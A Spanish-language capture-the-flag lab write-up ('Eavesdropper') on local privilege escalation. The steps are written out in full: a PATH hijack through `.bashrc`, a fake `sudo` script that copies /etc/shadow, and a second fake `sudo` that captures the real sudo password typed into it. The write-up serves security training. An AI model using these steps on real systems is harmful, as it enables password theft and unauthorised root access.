







# Eavesdropper

En el laboratorio, se nos proporciona acceso inicial a un usuario llamado `frank` y un archivo `id_rsa`, lo que nos permite ingresar al SSH utilizando el siguiente comando:

```
ssh -i id_rsa frank@<ip>
```

<figure><figcaption></figcaption></figure>

Después de enumerar la máquina, no encontramos nada interesante, ni siquiera al buscar los `backups` que se suponía que tenía. Sin embargo, al utilizar `pspy64`, descubrimos algunos procesos que se repetían y parecían estar programados.

<figure><figcaption></figcaption></figure>

El proceso que nos interesa es `sudo cat /etc/shadow`, ya que se supone que tenemos permisos de `root` con `sudo`, pero no contamos con la contraseña. Además, los `exploits` de `kernel` y `sudo` requieren librerías que nos faltan, por lo que no podemos ejecutarlos.

<figure><figcaption></figcaption></figure>

Sin embargo, como se observa a continuación, cuando intentamos ejecutar un comando con `sudo`, se nos solicita la contraseña. Si esto nos ocurre a nosotros, también puede sucederle al proceso que se ejecuta con `sudo`.

<figure><figcaption></figcaption></figure>

Por lo tanto, nuestro vector de ataque sería apropiarnos y redirigir el proceso de `sudo` a uno que creemos. Para ello, podemos utilizar `$PATH`, donde primero colocaremos nuestro propio proceso de `sudo`. Sigamos los pasos para hacerlo.

1. En la carpeta a la que tenemos acceso, creamos un directorio llamado `bin` y dentro de este, un archivo llamado `sudo`.

```
mkdir bin && cd bin

vim sudo
```

> *Nota: Al cerrar, debes otorgar permisos de ejecución al archivo `sudo` que creaste utilizando el comando `chmod +x bin/sudo`.*

2. En el archivo `sudo` que creamos, podemos insertar comandos que se ejecutarán. Puede ser cualquier comando; en este caso, intentamos extraer el archivo `shadow` para adivinar la contraseña utilizando `john`.

```
#!/bin/bash

cat /etc/shadow >> /home/frank/shadow.txt
```

	*Aunque logramos extraer el archivo `shadow`, no pudimos descifrarlo con `john`, por lo que decidimos intentar otra estrategia.*

<figure><figcaption></figcaption></figure>

3. Dado que al ejecutar `sudo` se solicita la contraseña, podemos aprovechar esto para que el proceso nos la proporcione. Guardamos la contraseña en una variable y, finalmente, la almacenamos en un directorio de `frank`. Con el siguiente código, podemos lograr este efecto.

```
#!/bin/bash

read -p 'Password: ' password

echo $password > /home/frank/password.txt
```

4. Por último, para que el proceso reconozca nuestra redirección de `PATH`, debemos modificarlo en el archivo `.bashrc`. Lo abrimos y añadimos la siguiente línea al principio del archivo.

```
vim .bashrc

export PATH=/home/frank/bin:$PATH
```

Con esto, esperamos un momento y obtendremos la contraseña para ejecutar `sudo`. 

<figure><figcaption></figcaption></figure>

Una vez que tengamos la contraseña, solo nos falta ejecutar `sudo` con el siguiente comando e ingresar la contraseña que obtuvimos.

```
/usr/bin/sudo su
```

De esta manera, obtenemos los permisos de `sudo` y el único archivo que nos solicita el laboratorio, `flag.txt`.

<figure><figcaption></figcaption></figure>

-------

>*El tiempo que te gusta perder no es tiempo perdido.* ~ **Bertrand Russell**
>
>*Quiere enfatizar que el valor del tiempo no se mide únicamente por la productividad. Si una actividad te brinda placer, descanso o inspiración, ya es valiosa. Tanto el ocio creativo como el ocio convencional alimentan la mente y dan sentido a la vida.*
>
><figure><figcaption></figcaption></figure>

